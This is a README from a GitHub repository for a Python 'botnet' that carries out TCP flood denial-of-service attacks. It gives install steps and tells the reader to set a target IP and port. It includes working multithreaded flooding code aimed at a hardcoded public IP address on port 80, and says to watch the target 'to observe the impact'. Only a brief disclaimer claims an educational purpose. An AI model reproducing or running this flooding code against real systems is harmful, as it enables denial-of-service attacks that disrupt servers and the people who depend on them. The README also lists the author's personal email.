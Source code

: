 # Botnet Project

## Overview

This project is a simple Python-based botnet designed for TCP flood DDoS attacks. It demonstrates the basics of implementing a botnet and can be used for educational purposes. The project is configured to run on a controlled environment with explicit permissions.

## Features

- **TCP Flood Attacks**: Perform TCP flood attacks to test the resilience of target systems.
- **Multithreading**: Use multiple threads to increase attack intensity.

## Prerequisites

- Python 3
- Basic knowledge of networking and DDoS attacks
- Legal permission to test the botnet on the target system

## Installation

### Clone the Repository

First, clone the repository to your local machine:

```bash
git clone https://github.com/yourusername/botnet-project.git
cd botnet-project
```

### Install Dependencies

Install the required Python packages using `pip`. If you don’t have `pip`, install it first.

Create a virtual environment (optional but recommended):

```bash
python -m venv venv
source venv/bin/activate  # On Windows use: venv\Scripts\activate
```

Install dependencies:

```bash
pip install -r requirements.txt
```

## Configuration

### Edit `main.py`

Open `main.py` and modify the target IP address and port directly in the code. Look for the following section and update the values:

```python
# Example configuration
TARGET_IP = '34.149.87.45'
TARGET_PORT = 80
```

Replace `'34.149.87.45'` with the IP address of the target and `80` with the desired port number.

## Usage

Run the botnet with the following command:

```bash
python main.py
```

### Example

Here’s an example of running the botnet:

1. Ensure you have updated the `TARGET_IP` and `TARGET_PORT` in `main.py`.
2. Start the botnet:

   ```bash
   python main.py
   ```

3. Monitor the target system to observe the impact.

## Testing

To test the botnet, use a controlled environment and ensure you have all necessary permissions. Start with a low-intensity test to verify functionality:

```python
# Example of starting the botnet with low intensity
import socket
import threading

def tcp_flood(target_ip, target_port, num_threads):
    def flood():
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(10)
        try:
            sock.connect((target_ip, target_port))
            while True:
                sock.sendto(b'X' * 1024, (target_ip, target_port))
        except socket.error:
            pass
        finally:
            sock.close()

    threads = [threading.Thread(target=flood) for _ in range(num_threads)]
    for thread in threads:
        thread.start()
    for thread in threads:
        thread.join()

tcp_flood('34.149.87.45', 80, 10)  # Example: Flood port 80 with 10 threads
```

## Contributing

Contributions are welcome! Please follow these guidelines:

1. Fork the repository and create a pull request.
2. Ensure your code follows the project’s coding style.
3. Add or update documentation as needed.


## Disclaimer

This project is intended for educational purposes only. Unauthorized use of this software may be illegal and unethical. Always obtain explicit permission before conducting any testing or attacks.

## Contact

For any questions or feedback, you can reach me via:

- **Email**: mayurjadhav0232@gmail.com
- **GitHub**: https://github.com/mayurjadhav-23
